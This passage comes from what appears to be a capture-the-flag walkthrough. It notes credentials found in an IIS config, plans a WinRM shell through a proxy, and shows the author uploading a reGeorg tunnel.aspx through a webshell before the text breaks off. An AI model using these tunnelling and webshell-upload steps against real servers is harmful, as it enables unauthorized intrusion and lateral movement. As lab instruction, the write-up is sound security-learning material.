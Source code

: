 ```
     </authentication>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>

```

These creds look like they might be Windows user credentials.i

### Shell over WinRm Through Proxy

#### reGeorg

There’s a neat project, [reGeorg](https://github.com/sensepost/reGeorg), which provides `tunnel.*` files for web languages such as php, aspx, js, and jsp. These pages provide a socks proxy through their web server execution. If I can get one of these to run on a target webserver, I can then run `reGeorgSocksProxy.py` to connect to it, which creates a socks proxy from my machine to the target.

#### Strategy

I’ll take a minute and collect the things I know at this point that are relevant:
- I know from the netstat on port 6666 that the host is listening on WinRm 5985, even if I can’t access it directly.
- I’ve got the password for the user simple.
- The web dirs seem to be running both php and ASP.NET. For php I’ve seen that the list of blocked functions, and that seems less likely to work. While an ASP.NET webshell won’t function (see Beyond Root), reGeorg might, so I’ll start there.

#### Upload reGeorg

```

 > help upload
Upload a local file to target
        Spaces allowed in target path, not local path
        upload [local file] [path on target]
 > upload /opt/reGeorg/tunnel.aspx tun.aspx
 > dir .
Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => tun.aspx
    [4] => webadmin.php
)
1

```

#### Connect Proxy

Now I’ll use `reGeorg` to connect to the page and start the tunnel:
